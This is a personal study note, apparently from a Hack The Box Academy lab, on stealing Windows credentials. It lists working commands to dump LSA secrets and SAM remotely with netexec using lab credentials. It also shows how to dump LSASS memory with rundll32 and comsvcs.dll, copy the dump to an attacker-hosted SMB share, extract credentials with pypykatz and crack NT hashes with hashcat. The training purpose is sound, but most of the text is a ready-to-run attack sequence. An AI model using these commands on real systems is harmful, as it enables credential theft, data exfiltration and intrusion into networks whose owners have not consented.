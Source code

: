 # Remote dumping, LSA secrets
- With access to credentials that have **local admin privileges**, can target LSA secrets over the network
	- `netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa`
		- Authenticate SMB, then dump LSA
- Can do the same for SAM
	- `netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt!`


# Attacking LSASS
1. Create a dump file, similar to copying contents of SAM
	- Task Manager way (need GUI)
		- Open Task Manager
		- Select the Processes tab
		- Find and right click the Local Security Authority Process
		- Select Create dump file
		- `lsass.DMP` created and saved in `%temp%`. Will transfer this to attack host
	- Rundll32.exe & Comsvcs.dll method
		- Find Lsass's PID 
			- From cmd, `tasklist /svc` and find `lsass.exe`PID
			- Or from powershell, `Get-Process lsass`
		- Create dumpfile with powershell
			- `rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID from above> C:\lsass.dmp full`
2. Transfer to attack host
	- Can do this with the same SMB method as above, in attacking SAM
	- `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support <share name> <local directory to host share>
		- run this on our attack host to create the share
	- Then move the file to the share
		- `move lsass.dmp \\<host ip>\<share name`
	- Can also use any method found in [[2. Windows Uploads]]
3. Use Pypykatz to extract credentials (on attack host)
	- Like mimikatz, but can run on Linux, so can use it on the ccopied dump file offline
	- Lsass stores credentials that have **active** logon session on Windows
		- So when we dumped Lsass process memory into file, essentialy took a 'snapshot' of what was in memory at that pt in time
	- `pypykatz lsa minidump </path_to>/lsass.dmp 
	- Results:
		- MSV
			- Authentication package in Windows that LSA calls on to validate logon attempts against the SAM database
		- Wdigest
			- Older authentication protocol
			- Passwords in cleartext
		- Kerberos
			- Passwords, ekeys, tickets, pins
		- Dpapi
			- Dpapi masterkey for logged-on users
				- Can be then used to decrypt secrets associated with each of the applications using Dpapi and result in capturing of credentials for various accounts.
			- More in Windows Privilege Escalation topic
		- NT Hashes
			- Crack with hashcat
				- `sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt`
